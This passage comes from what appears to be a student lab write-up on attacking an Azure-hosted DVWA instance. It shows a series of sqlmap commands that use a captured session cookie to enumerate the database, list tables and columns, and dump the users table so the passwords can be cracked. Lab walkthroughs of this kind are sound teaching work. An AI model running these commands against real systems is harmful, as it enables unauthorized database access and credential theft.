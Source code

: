 ![](/images/gradprojimport/FA2022_CC031_ProjAzure_Gagnon_Thomas_VM_AzureMySQL_Bastion_LogAnalytics_Sentinel_AppGate_WAF_html_7f6d61d2.jpg)

![](/images/gradprojimport/FA2022_CC031_ProjAzure_Gagnon_Thomas_VM_AzureMySQL_Bastion_LogAnalytics_Sentinel_AppGate_WAF_html_8b831799.jpg)

 Now that the cookie has been captured from the
webserver, we can build our SQLMap command and begin enumerating the
database by running the following command and setting the wizard option
to allow SQLMap to automate the attack.

```commandline
sqlmap -u "http://20.163.243.165/vulnerabilities/sqli/" --proxy=http://127.0.0.1:8080
--cookie="PHPSESSID=ueufmufdimuqm9l72lf6on1lkg;security=medium"
--data="id=1&Submnit=Submit""
--wizard
```


![](/images/gradprojimport/FA2022_CC031_ProjAzure_Gagnon_Thomas_VM_AzureMySQL_Bastion_LogAnalytics_Sentinel_AppGate_WAF_html_ebc1acf.jpg)


![](/images/gradprojimport/FA2022_CC031_ProjAzure_Gagnon_Thomas_VM_AzureMySQL_Bastion_LogAnalytics_Sentinel_AppGate_WAF_html_60ec0488.jpg)
 
Now that SQLMap has found a vulnerability, we can
see the database is DVWA and scan for tables by running the following.

```commandline
sqlmap -u "http://20.163.243.165/vulnerabilities/sqli/" --proxy=http://127.0.0.1:8080
--cookie="PHPSESSID=ueufmufdimuqm9l72lf6on1lkg;security=medium"
--data="id=1&Submnit=Submit""
--wizard -D dvwa --tables
```
![](/images/gradprojimport/FA2022_CC031_ProjAzure_Gagnon_Thomas_VM_AzureMySQL_Bastion_LogAnalytics_Sentinel_AppGate_WAF_html_5ea5af31.jpg)

We can see that the DVWA database contains the
table guestbook and users. We want to find users and passwords, so
we\'ll run the same command with the table users and search for columns

```commandline
sqlmap -u "http://20.163.243.165/vulnerabilities/sqli/" --proxy=http://127.0.0.1:8080
--cookie="PHPSESSID=ueufmufdimuqm9l72lf6on1lkg;security=medium"
--data="id=1&Submnit=Submit""
--wizard -D dvwa -T users --columns
```

![](/images/gradprojimport/FA2022_CC031_ProjAzure_Gagnon_Thomas_VM_AzureMySQL_Bastion_LogAnalytics_Sentinel_AppGate_WAF_html_117904ff.jpg)

We can see that the table users contains the
passwords and users. So we\'ll want to dump the users\' table and crack
the passwords by running the following command

```commandline
sqlmap -u "http://20.163.243.165/vulnerabilities/sqli/" --proxy=http://127.0.0.1:8080
--cookie="PHPSESSID=ueufmufdimuqm9l72lf6on1lkg;security=medium"
--data="id=1&Submnit=Submit""
--wizard -D dvwa -T users -dump
```
